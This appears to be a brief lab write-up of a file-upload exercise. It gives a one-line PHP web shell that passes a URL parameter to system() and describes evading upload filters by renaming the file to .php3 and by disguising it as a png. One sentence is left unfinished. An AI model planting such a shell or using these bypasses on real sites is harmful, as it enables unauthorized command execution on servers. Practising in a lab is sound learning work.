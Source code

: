 I wrote a simple php code which just executes a hard coded command.
```php
<?php 
$output = `whoami`;
echo "<pre>$output</pre>";
?>
```
Just change the `whoami` command to any other.

To run in URL, I modified to this
```php
<?php 
echo "<pre>" . system($_GET['cmd']) . "</pre>";
?>
```

When going to the file we will see an error for empty command or something.
We need to 

For medium security level I changed the extension to php3 which was accepted. 

For high security level I uploaded a png as requested while the file had the code from previous exercise. I opened the file and in the URL I changed the extension back to php and it worked as intended.